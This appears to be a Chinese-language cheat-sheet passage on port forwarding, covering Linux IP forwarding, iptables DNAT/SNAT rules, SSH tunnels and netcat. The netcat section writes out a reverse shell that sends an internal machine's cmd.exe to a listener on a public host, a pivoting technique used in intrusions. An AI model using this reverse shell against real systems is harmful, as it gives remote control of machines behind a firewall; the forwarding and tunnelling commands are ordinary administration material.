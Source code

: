 ### 临时方案

`echo 1 >/proc/sys/net/ipv4/ip_forward`

### 长期方案

运行`vi /etc/sysctl.conf`

```
# 找到下面的值并将0改成1

net.ipv4.ip_forward = 1
```

运行`sysctl –p`，使改动立即生效 。

下面是一个转发的示例

```
# 1.1.1.1是公网ip,192.168.2.2内网ip
iptables -t nat -A PREROUTING  -p tcp -d 1.1.1.1 --dport 80 -j DNAT --to-destination 192.168.2.2:8080

iptables -t nat -A POSTROUTING -p tcp -s 192.168.2.2 --sport 8080 -j SNAT --to-source 1.1.1.1

service iptables save
```

这样就会使得访问 1.1.1.1：80 映射到了 192.168.2.2：8080 端口。注意到这里

nc
--

```
# 公网主机
nc -lvp 4444

# 内网机器
nc -t -e cmd.exe 公网主机ip 4444
```

SSH
---

```
#本地端口转发:
ssh -CfNg -L port1:127.0.0.1:port2 user@host 
参数： -L 本地网卡地址:本地端口:目标地址:目标端口

#远程端口转发： 
ssh -CfNg -R port2:127.0.0.1:port1 user@hsst
参数： -R 远程网卡地址:远程端口:目标地址:目标端口

#动态端口转发
ssh -D localhost:2000 root@103.59.22.17
参数：-D 本地网卡地址:本地端口
```
